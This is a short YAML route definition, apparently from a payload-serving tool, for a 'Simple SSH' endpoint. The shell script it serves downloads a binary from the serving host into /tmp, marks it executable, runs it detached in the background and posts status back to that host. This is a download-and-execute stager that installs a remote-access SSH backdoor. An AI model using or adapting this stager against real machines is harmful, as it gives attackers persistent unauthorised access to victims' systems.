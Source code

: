 ```yaml
---
title: Simple SSH
description: Simple SSH (requires build of simple ssh in static dir)
weight: 1
pattern: /ssh/simple$
is_final: true
data:
  headers:
    Content-Type: text/plain
  body: |
    curl {{.Request.Host}}/static/simple-ssh > /tmp/s
    chmod +x /tmp/s
    curl -d "$(bash -c "/tmp/s & disown 2>&1" & )"  {{.Request.Host}}/l/ssh-status
---
```

